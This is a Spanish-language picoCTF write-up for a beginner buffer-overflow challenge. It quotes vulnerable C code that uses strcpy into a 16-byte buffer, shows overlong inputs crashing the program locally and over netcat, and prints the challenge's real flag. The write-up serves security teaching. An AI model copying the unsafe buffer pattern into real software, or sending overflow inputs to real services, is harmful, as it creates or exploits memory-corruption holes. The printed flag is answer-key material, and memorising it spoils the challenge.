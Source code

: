 Smash the stack Let's start off simple, can you overflow the correct buffer? The program is available [here](https://artifacts.picoctf.net/c/520/vuln). You can view source [here](https://artifacts.picoctf.net/c/520/vuln.c). And connect with it using: `nc saturn.picoctf.net 53935`

Hints:
1. How can you trigger the flag to print?
2. If you try to do the math by hand, maybe try and add a few more characters. Sometimes there are things you aren't expecting.
3. Run `man gets` and read the BUGS section. How many characters can the program really read?

## Solución
Ejecutando el archivo podemos observar que nos pide que creemos un archivo con nombre **"flag.txt"**
``` bash
echo 'flag{dummi}' > flag.txt
```

ejecutando nuevamente el archivo nos pedira que le demos una entrada, por lo que agregamos en la entrada una cadena de nás de 20 caracteres.
``` bash
holiwiscach@ubuntu:~/buffer_overflow0$ ./vuln 
Input: slkdjalsdjlaskdjaslkdjaslkjdalksjdlaskdj
flag{dummi}

```

¿Qué paso realmente? 
Mirando el código en C podemos darnos cuenta que en el método **vuln** solo hace aceptación de 16 caracteres, en caso contrario se desborda y hace que nos entregue la banedra **dummi**.

``` c
void sigsegv_handler(int sig) {
  printf("%s\n", flag);
  fflush(stdout);
  exit(1);
}

void vuln(char *input){
  char buf2[16];
  strcpy(buf2, input);
}

int main(int argc, char **argv){
  
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your>
                    "own debugging flag.\n");
    exit(0);
  }

```

Entonces entrando desde el servidor y aplicando el mismo método podemos obtener la badnera.
``` bash
holiwiscach@ubuntu:~/buffer_overflow0$ nc saturn.picoctf.net 53935
Input: saldhlakshdlashdlkaslkdlashdklsadasdasdsadklhsklkashdklahsdklhasdklhaslkhdskdahhkx<jxjk<hzkkzjhzk
picoCTF{ov3rfl0ws_ar3nt_that_bad_a065d5d9}

```

bandera:
picoCTF{ov3rfl0ws_ar3nt_that_bad_a065d5d9}
